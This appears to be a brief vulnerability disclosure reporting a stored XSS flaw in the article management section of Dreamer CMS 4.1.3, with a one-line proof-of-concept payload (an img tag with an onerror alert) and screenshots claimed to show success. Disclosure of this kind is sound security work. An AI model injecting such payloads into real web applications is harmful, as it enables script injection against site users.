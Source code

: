 Target is https://github.com/iteachyou-wjn/dreamer_cms

version:4.1.3

There is a storage based XSS in the article management department

![图片](https://github.com/jiaofj/cms/assets/83294168/22352bb2-acd8-43d0-a868-12c8c6b2f1d7)



poc:`<img src=1 onerror=alert(1)>`

![图片](https://github.com/jiaofj/cms/assets/83294168/5610dce1-d341-413e-ba6a-d30847b2370f)


successed

![图片](https://github.com/jiaofj/cms/assets/83294168/f95cf079-5800-43e7-9fe0-c20177c52b2b)
